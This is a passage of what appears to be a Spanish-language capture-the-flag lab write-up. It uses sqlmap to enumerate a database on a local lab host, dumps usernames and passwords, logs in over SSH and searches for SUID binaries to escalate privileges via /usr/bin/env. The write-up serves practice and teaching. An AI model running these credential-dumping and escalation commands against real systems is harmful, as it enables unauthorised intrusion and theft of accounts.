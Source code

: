 ![image](https://github.com/user-attachments/assets/b2707222-657b-4705-aa77-ca1b2709f1bd)<br>

2. Enumerar tablas de la base register:
```bash
sqlmap -u http://172.17.0.2/ --forms -D register --tables --batch
```

<img width="515" alt="image" src="https://github.com/user-attachments/assets/cdb68eb8-948e-4266-8371-3314992f7a33" /><br>

3. Ver columnas de la tabla users:
```bash
sqlmap -u http://172.17.0.2/ --forms -D register -T users --columns --batch
```

<img width="521" alt="image" src="https://github.com/user-attachments/assets/5d4081aa-711a-4194-b273-e5df01b2e37f" /><br>

4. Obtener datos de usuarios:
```bash
sqlmap -u http://172.17.0.2/ --forms -D register -T users -C username,passwd --dump --batch
```

<img width="535" alt="image" src="https://github.com/user-attachments/assets/88c47b8b-9df8-4a4c-9827-105f1c7bd938" /><br>

---

## 🔐 Acceso vía SSH
Con las credenciales obtenidas, accedemos vía SSH al sistema comprometido.

<img width="559" alt="image" src="https://github.com/user-attachments/assets/8ac16246-5b47-4a89-bbad-86a2b6e5f590" /><br>

---

## 🛡️ Escalada de Privilegios
1. Verificar permisos sudo:
```bash
sudo -l
```

<img width="540" alt="image" src="https://github.com/user-attachments/assets/48d48ef9-1fe0-4997-a319-d63cbdcc1833" /><br>

(No se obtuvo acceso directo a sudo).

2. Buscar binarios SUID:
```bash
find / -perm -4000 2>/dev/null
```

<img width="565" alt="image" src="https://github.com/user-attachments/assets/f958b6b6-1585-4fd0-8dfa-0174513acace" /><br>

Identificamos /usr/bin/env como binario potencialmente explotable.

3. Explotación con GTFObins:

<img width="559" alt="image" src="https://github.com/user-attachments/assets/f0e6e75a-3746-42a2-949f-f42493b08952" /><br>
